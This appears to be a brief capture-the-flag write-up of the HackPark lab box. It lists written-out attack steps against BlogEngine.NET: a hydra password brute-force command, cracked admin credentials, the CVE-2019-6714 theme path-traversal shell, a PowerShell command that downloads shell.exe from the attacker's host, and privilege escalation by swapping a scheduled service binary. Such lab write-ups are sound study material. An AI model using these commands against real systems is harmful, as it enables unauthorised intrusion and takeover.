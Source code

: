 # HACKPARK
```
IP = 10.10.58.73
```
+ Ran initial nmap scan
+ Found robots.txt 
```
User-agent: *
Disallow: /Account/*.*
Disallow: /search
Disallow: /search.aspx
Disallow: /error404.aspx
Disallow: /archive
Disallow: /archive.aspx

#Remove the '#' character below and replace example.com with your own website address.
#sitemap: http://example.com/sitemap.axd 
# WebMatrix 1.0
```
+ Found a login page using gobuster (which yielded a lot of paths to explore)
+ Used hydra to crack password with `hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.58.73 http-post-form "/Account/login.aspx?ReturnURL=/admin:__VIEWSTATE=c5xm%2Fgj5uTo07SXbmxE7%2BtOAfu5CenBuTtuD9rtbDvcWhud5qADWr3%2FSv0g829tkopysMjkBw6Bnajzaz%2FJeR2FhHM6I731xImi%2FKGce03HuTvnkec4YEEBJhT8Y2SuZpViMoTT8DreSbGvwlA3rAsJmFjvMk2pROd9hIZ%2BM%2Frf%2Fh%2FIY&__EVENTVALIDATION=4ysBBEl4MNdkfrX0gOwq0CRFeaHhGpyAljIFmB9DaA3gfFqVrJNzGslOIIBYicS1L%2BixJB1iRZOCmfKhPS%2F0jz2qw01K3JP95hMFWzsE065NMF8QIzRRAk8avvGDMacv1WT8svVl3RXdQ6SZdkhMg81%2Bx7JaqDlZ0l8c1noEJ8xqQiCZ&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed" -vv`
+ Successfully cracked password [admin:1qaz2wsx]
+ Logged into blogengine.net and found its version [3.3.6.0]
+ Found exploit with CVE-2019-6714, tweaked it and uploaded in the Content section of blogengine as PostView.ascx
+ Visited `http://10.10.58.73/?theme=../../App_Data/files/` to get a shell on 9001 listener
+ Served opt/windows folder using python SimpleHTTPServer
+ Uploaded payload to catch in meterpreter using `powershell -c "Invoke-WebRequest -Uri 'http://10.11.4.238:9002/shell.exe' -OutFile 'C:\Windows\Temp\shell.exe'"`
+ Now for privesc, look at suspicious services and found WindowsScheduler, then went to location found a binary running every 30 secs on elevated privs
+ Replaced binary `Message.exe` with `shell.exe` and exited the meterpreter. Relaunched meterpreter and waited to gain admin shell.